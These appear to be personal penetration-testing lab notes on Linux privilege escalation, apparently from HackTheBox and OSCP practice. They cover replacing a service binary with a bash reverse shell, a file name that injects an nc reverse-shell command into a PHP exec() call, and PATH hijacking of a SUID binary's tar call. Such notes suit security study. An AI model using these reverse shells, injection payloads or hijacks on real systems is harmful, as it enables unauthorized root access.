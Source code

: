 ![[HackTheBox/Linux/attachments/Pasted image 20250506210424.png]]

Rename the `nagios` binary to `nagios~`

```
mv nagios nagios~
```

Create a new file called `nagios` and paste in reverse shell. Make it executable `chmod +x`

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.10/9001 0>&1
```

Set up nc listener. Restart the nagios service with sudo permissions. Catch root shell.

## Exploiting php exec() function
- this function is like sudo and executes as root

Example php code to exploit for priv esc 
```
    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```
- we can control $value by inserting malicious file 

```
touch -- ';nc -c bash 10.10.14.3 9001;.php'
```

## Path Hijacking

Notice this string within a SUID binary we have access to
![[OSCP/attachments/Pasted image 20250622211738.png]]
- tar utiity is no using absolute path -> can hijack for priv esc

```
echo /bin/bash > tar
```

```
export PATH=/home/matt:$PATH
```

```
echo $PATH
```

```
chmod +x tar
```

```
which tar
```
